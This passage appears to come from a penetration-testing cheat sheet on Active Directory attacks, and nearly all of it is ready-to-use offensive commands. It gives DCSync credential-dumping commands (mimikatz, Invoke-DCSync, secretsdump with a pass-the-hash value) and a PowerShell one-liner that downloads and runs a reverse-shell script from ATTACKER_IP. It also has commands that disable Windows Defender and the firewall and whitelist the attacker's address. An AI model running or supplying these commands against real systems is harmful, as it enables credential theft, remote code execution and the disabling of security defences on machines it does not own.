 ## &nbsp;&nbsp;&nbsp;&nbsp; DC Sync
<pre class="prettyprint linenums:"><code class="language-py">#####
lsadump::dcsync /domain:domain /all /csv
lsadump::dcsync /user:krbtgt

#####
https://gist.github.com/monoxgas/9d238accd969550136db
powershell.exe -c "Import-Module .\Invoke-DCSync.ps1; Invoke-DCSync -PWDumpFormat"

#####
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
python secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit LOCAL
</code></pre>


# Bypass-Evasion Techniques
## &nbsp;&nbsp;&nbsp;&nbsp; Powershell Constrained Language Bypass
<pre class="prettyprint linenums:"><code class="language-py">powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')

PSByPassCLM
powershell.exe -exec bypass -c
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Windows Defender
<pre class="prettyprint linenums:"><code class="language-powershell">sc config WinDefend start= disabled
sc stop WinDefend
# Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
# Remove definitions
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
</code></pre>
## &nbsp;&nbsp;&nbsp;&nbsp; Firewall
<pre class="prettyprint linenums:"><code class="language-powershell">Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Ip Whitelisting
<pre class="prettyprint linenums:"><code class="language-powershell">New-NetFirewallRule -Name morph3inbound -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
</code></pre>
